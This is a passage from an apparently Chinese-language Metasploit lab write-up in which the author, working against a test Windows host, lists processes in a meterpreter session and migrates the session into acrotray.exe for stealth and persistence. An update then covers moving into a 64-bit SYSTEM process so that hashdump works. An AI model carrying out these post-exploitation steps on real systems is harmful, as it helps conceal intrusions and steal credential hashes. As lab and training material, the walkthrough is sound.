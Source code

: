 ![Screen Shot 2018-10-19 at 9.24.43 AM.png]({{ site.url }}/images/metasploit/C79281DEAFD18908A98BEBCD41700898.png)

![Screen Shot 2018-10-19 at 9.25.57 AM.png]({{ site.url }}/images/metasploit/6C6A32E7C645E70017FEE127CC50DA16.png)

我们看看当前的meterpreter位于哪个进程中：

```
meterpreter > getpid
Current pid: 4012

meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User                          Path
 ---   ----  ----                     ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                   x64   0
 260   4     smss.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 316   500   svchost.exe              x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
...
 2224  3028  acrotray.exe             x86   1        TEST\rambo                    C:\Program Files (x86)\Adobe\Acrobat 10.0\Acrobat\acrotray.exe
...
 4012  3560  dgsbevVcjI.exe           x86   1        TEST\rambo                    C:\Users\rambo\AppData\Local\Temp\radD2774.tmp\dgsbevVcjI.exe
...
```

为了隐蔽和持久，我们将其迁入2224进程中（本来打算迁移到explorer.exe，失败了）：

```
meterpreter > migrate 2224
[*] Migrating from 4012 to 2224...
[*] Migration completed successfully.
meterpreter > getpid
Current pid: 2224
```

---

**更新**

后来读到一篇博文[Dumping Hashes on Win2k8 R2 x64 with Metasploit](https://room362.com/post/2011/2011-05-16-dumping-hashes-on-win2k8-r2-x64-with-metasploit/)，作者在`hashdump`时遇到了同样的问题。他的解决方案是先把会话迁入一个具有system权限的64位进程，然后hashdump就可以成功。我这里的靶机也是64位的，但是一开始的meterpreter进程却是32位的，且它的权限token还是普通管理员权限（尽管使用了`getsystem`）。我按照他的方法尝试一下：

```bash
# original meterpreter
1424  3424  aAEXKduKiUJr.exe   x86   1        TEST\rambo                    C:\Users\rambo\AppData\Local\Temp\radC2AA5.tmp\aAEXKduKiUJr.exe

# after migrating
1992  504   dllhost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\dllhost.exe
```
